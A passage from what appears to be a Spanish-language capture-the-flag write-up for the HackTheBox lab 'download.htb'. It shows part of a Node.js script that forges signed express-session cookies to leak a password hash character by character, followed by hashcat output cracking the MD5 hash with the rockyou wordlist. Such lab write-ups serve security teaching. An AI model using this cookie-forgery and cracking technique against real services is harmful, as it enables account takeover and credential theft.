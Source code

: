 ```js
    let signature = "download_session.sig=" + grip.sign(value);
    let request = await axios.get("http://download.htb/home/", {
      headers: {
        Cookie: `${value}; ${signature}`
      }
    });
    if(request.data.length > 2174){
        next = char;
        break;
    }
  }
  return next;
}

async function thing(){
  let result = "";
  while(true){
    let next = await test(result);
    if(next != ""){
      process.stdout.write(next);
      result += next;
      continue
    } else {
      process.exit(0);
    }
  } 
}

thing();
```
{: file="index.js"}

> Para llegar a este código, fue necesario inspeccionar el código que express-session utilizaba para generar la signature y la correspondiente sesión e implementarlo en forma de un algoritmo para fuerza bruta.
{: .prompt-info }

Ejecutando este script, obtendremos el hash en unos minutos. El tiempo depende mayormente de la calidad de tu conexión a internet

```bash
❯ node index.js
f88976c10af66915918945b9679b2bd3
```

Se crackea en poco tiempo

```bash
f88976c10af66915918945b9679b2bd3:dunkindonuts             
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: f88976c10af66915918945b9679b2bd3
Time.Started.....: Fri Nov 10 21:17:56 2023 (2 secs)
Time.Estimated...: Fri Nov 10 21:17:58 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1128.1 kH/s (0.15ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 151552/14344384 (1.06%)
Rejected.........: 0/151552 (0.00%)
Restore.Point....: 149504/14344384 (1.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
```